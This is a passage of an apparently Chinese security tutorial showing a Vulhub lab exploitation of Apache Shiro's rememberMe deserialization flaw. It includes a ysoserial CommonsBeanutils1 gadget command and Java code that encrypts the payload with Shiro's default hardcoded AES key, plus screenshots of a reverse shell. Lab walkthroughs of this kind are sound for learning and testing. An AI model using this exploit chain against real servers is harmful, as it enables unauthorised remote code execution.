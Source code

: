 服务启动后，  
访问  
http://your-ip:8080  
可使用admin:vulhub  
进行登录：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J1Dqj6heGGsrdg73sbNhn2E5W1icHq9Qdgr5dRXdibA5oD486iaMRV6piahLOHExTM1lm1toqZUoMicIyg/640?wx_fmt=png&from=appmsg "")  
  
3）使用现成Shiro漏洞测试效果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J1Dqj6heGGsrdg73sbNhn2EFyz16DCx748Ip1KA90XrjdB9lcZ0BkzIXyFibeiaj0FD2qbTwvBYztRg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J1Dqj6heGGsrdg73sbNhn2EMAib9vuQkCm8650NxBpVxD9mIoCs7nDPFqaAYgGdsjQCfmEQiczmVBhA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J1Dqj6heGGsrdg73sbNhn2EamhtVQlzHHmdcADfpc1APL6HIHqc1zXZX3GdiaiaHbbmUjLq4lu83BCA/640?wx_fmt=png&from=appmsg "")  
  
成功反弹shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J1Dqj6heGGsrdg73sbNhn2Ey8cucTEvchfVAvazY1iaTuz3jib5skVP7VYf63TTc2xChxyw8ADHsZkw/640?wx_fmt=png&from=appmsg "")  
  
4  
）或者手动使用ysoserial生成CommonsBeanutils1的Gadget来验证  
```
java -jar ysoserial-all.jar CommonsBeanutils1 "touch /tmp/success111" > poc2.ser
```  
  
5）使用Shiro内置的默认密钥加密Payload：  
```
import org.apache.shiro.codec.Base64;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.nio.file.FileSystems;
import java.nio.file.Files;

public class Test {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/Users/liujianping/IdeaProjects/java_code/SecVul/SerializableDemo/src/test/java/poc2.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.println(ciphertext.toString());
    }
}

```  
  
执行返回加密后的Payload，也就是rememberMe的值：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hGAb3jria8J1Dqj6heGGsrdg73sbNhn2EA1LDicT2hUtQmP0UOmHcmuxbRRHOvFL6e1EaSPpxLFA4gnaA9jmSvBg/640?wx_fmt=png&from=appmsg "")  
  
